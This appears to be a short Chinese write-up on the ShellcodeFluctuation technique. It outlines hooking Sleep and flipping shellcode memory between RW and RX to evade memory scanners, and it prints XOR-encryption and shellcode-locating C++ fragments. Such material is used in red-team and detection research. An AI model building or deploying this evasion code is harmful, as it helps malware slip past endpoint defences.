   

-   ShellcodeFluctuation  
    

1.  Hook Sleep 函数
    
2.  定位内存中的 shellcode
    
3.  睡眠期间翻转为 RW
    
4.  睡眠结束翻转为 RX
    
5.  无限循环，以此规避内存扫描
    

关键部分代码：

  

XOR 加密：

```bash
void xor32(uint8_t* buf, size_t bufSize, uint32_t xorKey)
{
    uint32_t* buf32 = reinterpret_cast<uint32_t*>(buf);

    auto bufSizeRounded = (bufSize - (bufSize % sizeof(uint32_t))) / 4;
    for (size_t i = 0; i < bufSizeRounded; i++)
    {
        buf32[i] ^= xorKey;
    }

    for (size_t i = 4 * bufSizeRounded; i < bufSize; i++)
    {
        buf[i] ^= static_cast<uint8_t>(xorKey & 0xff);
    }
}
```

```bash
定位内存中的 shellcode 地址：
```

```bash
bool isShellcodeThread(LPVOID address)
{
    MEMORY_BASIC_INFORMATION mbi = { 0 };
    if (VirtualQuery(address, &mbi, sizeof(mbi)))
    {
        //
        // To verify whether address belongs to the shellcode's allocation, we can simply
        // query for its type. MEM_PRIVATE is an indicator of dynamic allocations such as VirtualAlloc.
        //
        if (mbi.Type == MEM_PRIVATE)
        {
            const DWORD expectedProtection = (g_fluctuate == FluctuateToRW) ? PAGE_READWRITE : PAGE_NOACCESS;

            return ((mbi.Protect & PAGE_EXECUTE_READ)
                || (mbi.Protect & PAGE_EXECUTE_READWRITE)
                || (mbi.Protect & expectedProtection));
        }
    }

    return false;
}
```
